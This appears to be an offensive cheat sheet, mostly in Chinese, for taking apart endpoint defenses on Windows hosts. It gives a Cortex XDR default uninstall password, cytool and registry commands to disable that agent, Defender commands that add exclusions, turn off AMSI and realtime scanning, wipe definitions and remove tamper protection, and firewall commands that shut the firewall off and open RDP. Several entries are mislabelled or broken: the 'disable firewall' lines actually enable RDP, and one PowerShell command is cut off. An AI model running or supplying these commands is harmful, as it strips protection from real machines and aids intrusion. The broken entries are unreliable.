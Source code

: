   #### Sophos
	https://github.com/ayeskatalas/Sophos-Removal-Tool/
  #### Symantec
	https://knowledge.broadcom.com/external/article/178870/download-the-cleanwipe-removal-tool-to-u.html
  #### Elastic EDR
	https://www.elastic.co/guide/en/fleet/current/uninstall-elastic-agent.html
	  cd "C:\Program Files\Elastic\Agent\"
	  PS C:\Program Files\Elastic\Agent> .\elastic-agent.exe uninstall
	  Elastic Agent will be uninstalled from your system at C:\Program Files\Elastic\Agent. Do you want to continue? [Y/n]:Y
	  Elastic Agent has been uninstalled.
  #### Cortex XDR
	https://mrd0x.com/cortex-xdr-analysis-and-bypass/
	卸载密码：Password1
	Password hash is located in C:\ProgramData\Cyvera\LocalSystem\Persistence\agent_settings.db
	Look for PasswordHash, PasswordSalt or password, salt strings.

	禁用Cortex：将DLL改成随机值，然后重启
	reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CryptSvc\Parameters /t REG_EXPAND_SZ /v ServiceDll /d nothing.dll /f

	启动时禁用，重启生效
	cytool.exe startup disable

	禁用对 Cortex XDR 文件、进程、注册表和服务的保护
	cytool.exe protect disable

	禁用 Cortex XDR（即使启用了篡改保护）
	cytool.exe runtime disable

	禁用事件收集
	cytool.exe event_collection disable
  #### 禁用Windows Defender
	禁用Defender
	sc config WinDefend start= disabled
	sc stop WinDefend
	Set-MpPreference -DisableRealtimeMonitoring $true

	排除进程/位置
	Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"
	Add-MpPreference -ExclusionProcess 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe'
	Add-MpPreference -ExclusionPath C:\Video, C:\install

	禁用扫描所有下载的文件和附件，禁用 AMSI
	PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
	PS C:\> Set-MpPreference -DisableIOAVProtection $true
	禁用 AMSI (设置为0为启动)
	PS C:\> Set-MpPreference -DisableScriptScanning 1 

	清零 ETW 会话对应的注册表值
	reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderApiLogger" /v "Start" /t REG_DWORD /d "0" /f

	擦除当前存储的定义
	MpCmdRun.exe 的位置：C:\ProgramData\Microsoft\Windows Defender\Platform\
	MpCmdRun.exe -RemoveDefinitions -All

	删除签名
	PS > & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
	PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

	禁用 Windows Defender 安全中心
	reg add "HKLM\System\CurrentControlSet\Services\SecurityHealthService" /v "Start" /t REG_DWORD /d "4" /f

	禁用实时保护
	reg delete "HKLM\Software\Policies\Microsoft\Windows Defender" /f
	reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f
	reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f

##### cmd
```
#查看排除项
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions" /s
#查看版本
dir "C:\ProgramData\Microsoft\Windows Defender\Platform\" /od /ad /b
#查看篡改保护（返回结果中的 数值5代表开启，数值4代表关闭）
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Features" /v "TamperProtection"
#需要TrustedInstaller权限
##cmd注册表关闭Windows defender
reg add "HKLM\SOFTWARE\Microsoft\Windows Defender" /v DisableAntiSpyware /t reg_dword /d 1 /f
##cmd关闭篡改保护
NSudoLG.exe -U:T cmd /c "reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Features" /v "TamperProtection" /d 4 /t REG_DWORD /f"
##cmd注册表恢复Windows defender
reg add "HKLM\SOFTWARE\Microsoft\Windows Defender" /v DisableAntiSpyware /t reg_dword /d 0 /f
##cmd添加Windows defender排除项
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths" /v "c:\temp" /d 0 /t REG_DWORD /f
``` 

##### Powshell
```
#查看排除项
Get-MpPreference | select ExclusionPath
#关闭Windows defender
Set-MpPreference -DisableRealTimeMonitoring $true
#增加排除项
Add-MpPreference -ExclusionPath "c:\temp"
#删除排除项
Remove-MpPreference -ExclusionPath "C:\test"
#关闭实时保护
Set-MpPreference -DisableRealtimeMonitoring $true
```

##### (1) NSudoLG

工具地址：https://github.com/M2Team/NSudo
用法：

##### (2) AdvancedRun

地址：https://www.nirsoft.net/utils/advanced_run.html
用法：

##### (3) StopDefender
Github地址：https://github.com/lab52io/StopDefender

##### (4) MpCmdRun介绍
配置和管理 Microsoft Defender 防病毒软件的命令行工具详情
https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/command-line-arguments-microsoft-defender-antivirus?view=o365-worldwide

  #### 防火墙
	允许进站
	如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许3389端口，命令如下:
	>netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
	>netsh firewall set portopening TCP 3389 ENABLE
	防火墙关闭
	>netsh firewall set opmode mode=disable
	>netsh advfirewall show allprofiles查看状态
	>netsh advfirewall set allprofiles state off 
	>sc stop windefend
	>sc delete windefend
	PS> Set-MpPreference -DisableRealtimeMonitoring 1
	PS> Set-MpPreference -Disablearchivescanning $true
	IP白名单
	>New-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress 10.10.10.10
	列出防火墙的阻止端口
	>$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
	禁用防火墙
	在 Windows 7 上通过 cmd 禁用防火墙
	reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server"  /v fDenyTSConnections /t REG_DWORD /d 0 /f

	在 Windows 7 上通过 Powershell 禁用防火墙
	powershell.exe -ExecutionPolicy Bypass -command 'Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" –Value'`

	通过 cmd 在任何windows上禁用防火墙
	netsh firewall set opmode disable
	netsh Advfirewall set allprofiles state off